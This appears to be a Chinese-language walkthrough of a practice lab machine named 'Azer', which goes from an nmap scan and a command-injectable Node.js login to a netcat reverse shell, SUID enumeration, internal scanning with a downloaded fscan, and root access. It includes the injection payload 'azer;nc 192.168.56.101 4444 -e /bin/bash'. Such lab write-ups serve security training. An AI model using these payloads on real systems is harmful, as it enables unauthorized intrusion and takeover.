# Azer
nmap扫描

3000端口是一个登录口,node.js
目录扫描一下,没什么东西
登录试一下弱口令
```
Error executing bash script: Command failed: /home/azer/get.sh admin admin
fatal: not a git repository (or any of the parent directories): .git
执行 bash 脚本时出错：命令失败：/home/azer/get.sh admin admin致命错误：不是一个 git 仓库（或任何父目录）：.git
```
看样子是拉取一个git仓库
sql注入也不行
注意到是.sh文件,猜一下将输入拼接到脚本文件里执行

感觉有戏



有执行错误的回显,执行正确则无输出回显
猜的果然没错
```
nc反弹shell
payload:azer;nc 192.168.56.101 4444 -e /bin/bash
```

升级一下shell
```
script -qc /bin/bash /dev/null
```
翻看目录看见user.txt

且发现.ssh文件
尝试提权
看一下suid
```
find / -perm -4000 -exec ls -ld {} \; 2>/dev/null
```

fusermount3 --version版本为3.14,用不了挂载漏洞
看了一下,靶机上还存在docker容器
```
ip a查看
```

上传fscan工具扫一下内网
```
python -m http.server 80

wget http://192.168.56.101/fscan

```
发现10主机有开放了80端口

curl探测一下

切换root用户登录

